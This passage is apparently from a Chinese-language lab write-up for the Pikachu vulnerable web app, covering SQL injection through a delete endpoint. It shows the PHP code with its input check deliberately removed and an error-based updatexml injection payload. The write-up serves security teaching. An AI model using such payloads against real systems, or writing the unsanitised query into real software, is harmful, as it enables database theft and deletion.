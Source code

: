 ![](../../../../assets/img/安全/实验/Misc/pikachu/51.png)

后面爆剩下的略,累了

### "delete" 注入

**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入,构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过 Burp Suite 中自带的 URL 转换编码来转换替换 ID

![](../../../../assets/img/安全/实验/Misc/pikachu/53.png)
